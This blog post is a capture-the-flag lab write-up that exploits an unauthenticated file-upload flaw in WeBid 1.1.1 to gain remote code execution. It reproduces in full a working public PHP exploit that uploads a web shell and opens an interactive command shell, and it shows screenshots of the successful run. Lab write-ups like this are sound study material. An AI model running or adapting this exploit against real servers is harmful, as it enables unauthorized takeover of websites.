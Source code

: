 ```yaml
---
layout: post
title: AttackDefense.com [RCE] - WeBid
date: 2018-12-01 17:41 -0300
categories: [AttackDefense.com, ctf, writeups, RCE]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find a remote code injection attack to run arbitrary commands on the server.

A version of WeBid is vulnerable to a remote code execution attack.

Objective: Your task is to find and exploit this vulnerability.

Level difficulty: Easy

Category: Real Web Applications > Remote Code Execution

### Solution

WeBid provides open source auction software which has been used around the world and has been downloaded over 100,000 times and allows consumers to quickly set up their own auction site and get started straight away.

Unfortunately, in this lab, I was provided with a rather old version of WeBid that has a Remote Code Execution Vulnerability using an unrestricted file upload.

![Image of AttackDefense 2018](/uploads/adrce5/image8.png)

By going to the following link, I was able to retrieve the exact version of this PHP application:

- [http://2e6goc7ffrfcmawrhu6u2r6n4.public2.attackdefenselabs.com/docs/changes.txt](http://2e6goc7ffrfcmawrhu6u2r6n4.public2.attackdefenselabs.com/docs/changes.txt)

![Image of AttackDefense 2018](/uploads/adrce5/image7.png)

Funny enough this version of WeBid (1.1.1) is so broken, that the well known ```@GetSploitBot``` telegram bot cannot list all the exploits for all the existing vulnerabilities:

![Image of AttackDefense 2018](/uploads/adrce5/image5.png)

I decided to use an Unrestricted File Upload Exploit in order to obtain a Remote Code Execution Vulnerability. Here is the example PHP exploit that I used in order to obtain an interactive web shell:

- [https://vulners.com/zdt/1337DAY-ID-23323](https://vulners.com/zdt/1337DAY-ID-23323
)

![Image of AttackDefense 2018](/uploads/adrce5/image6.png)

Here is an exact copy of the known PHP exploit:

```php
<?php
   
/*
   
  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /      
  / XXXXXX /
 (________(        
  `------'
    
 Exploit Title   : WeBid 1.1.1 Unrestricted File Upload Exploit
 Date            : 20 February 2015
 Exploit Author  : CWH Underground
 Site            : www.2600.in.th
 Vendor Homepage : http://www.webidsupport.com/
 Software Link   : http://sourceforge.net/projects/simpleauction/files/simpleauction/WeBid%20v1.1.1/WeBid-1.1.1.zip/download
 Version         : 1.1.1
 Tested on       : Window and Linux
    
    
#####################################################
VULNERABILITY: Arbitrary File Upload Vulnerability
#####################################################
    
/ajax.php
/inc/plupload/examples/upload.php
   
#####################################################
DESCRIPTION
#####################################################
    
This exploit a file upload vulnerability found in WeBid 1.1.1, and possibly prior. Attackers can abuse the
upload feature in order to upload a malicious PHP file without authentication, which results in arbitrary remote code execution.
   
#####################################################
EXPLOIT
#####################################################
    
*/
   
error_reporting(0);
set_time_limit(0);
ini_set("default_socket_timeout", 5);
   
function http_send($host, $packet)
{
    if (!($sock = fsockopen($host, 80)))
        die("\n[-] No response from {$host}:80\n");
    
    fputs($sock, $packet);
    return stream_get_contents($sock);
}
   
print "\n+----------------------------------------+";
print "\n| WeBid Unrestricted File Upload Exploit |";
print "\n+----------------------------------------+\n";
    
if ($argc < 3)
{
    print "\nUsage......: php $argv[0] <host> <path>\n";
    print "\nExample....: php $argv[0] localhost /";
    print "\nExample....: php $argv[0] localhost /WeBid/\n";
    die();
}
   
$host = $argv[1];
$path = $argv[2];
    
$payload  = "--o0oOo0o\r\n";
$payload .= "Content-Disposition: form-data; name=\"name\"\r\n\r\n";
$payload .= "shell.php\r\n";
$payload .= "--o0oOo0o\r\n";
$payload .= "Content-Disposition: form-data; name=\"file\"; filename=\"shell.php\"\r\n";
$payload .= "Content-Type: application/octet-stream\r\n\r\n";
$payload .= "<?php error_reporting(0); print(___); passthru(base64_decode(\$_SERVER[HTTP_CMD]));\r\n";
$payload .= "--o0oOo0o--\r\n";
 
$packet  = "POST {$path}ajax.php?do=uploadaucimages HTTP/1.1\r\n";
$packet .= "Host: {$host}\r\n";
$packet .= "Content-Length: ".strlen($payload)."\r\n";
$packet .= "Content-Type: multipart/form-data; boundary=o0oOo0o\r\n";
$packet .= "Cookie: PHPSESSID=cwh"."\r\n";
$packet .= "Connection: close\r\n\r\n{$payload}";
 
print "\n\nExploiting...";
sleep(2);
print "Waiting for shell...\n";
sleep(2);
 
http_send($host, $packet);
   
$packet  = "GET {$path}uploaded/cwh/shell.php HTTP/1.1\r\n";
$packet .= "Host: {$host}\r\n";
$packet .= "Cmd: %s\r\n";
$packet .= "Connection: close\r\n\r\n";
 
   print "\n  ,--^----------,--------,-----,-------^--,   \n";
   print "  | |||||||||   `--------'     |          O   \n";
   print "  `+---------------------------^----------|   \n";
   print "    `\_,-------, _________________________|   \n";
   print "      / XXXXXX /`|     /                      \n";
   print "     / XXXXXX /  `\   /                       \n";
   print "    / XXXXXX /\______(                        \n";
   print "   / XXXXXX /                                 \n";
   print "  / XXXXXX /   .. CWH Underground Hacking Team ..  \n";
   print " (________(                                   \n";
   print "  `------'                                    \n";
       
while(1)
{
    print "\nWebid-shell# ";
    if (($cmd = trim(fgets(STDIN))) == "exit") break;
    $response = http_send($host, sprintf($packet, base64_encode($cmd)));
    preg_match('/___(.*)/s', $response, $m) ? print $m[1] : die("\n[-] Exploit failed!\n");
}
 
################################################################################################################
# Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################
?>

#  0day.today [2018-02-10]  #

```

Example usage of the exploit on my localhost:

![Image of AttackDefense 2018](/uploads/adrce5/image3.png)

Running the exploit against the given target and obtaining the interactive shell:

![Image of AttackDefense 2018](/uploads/adrce5/image4.png)

Proof of remote code execution and final access:

![Image of AttackDefense 2018](/uploads/adrce5/image1.png)

![Image of AttackDefense 2018](/uploads/adrce5/image2.png)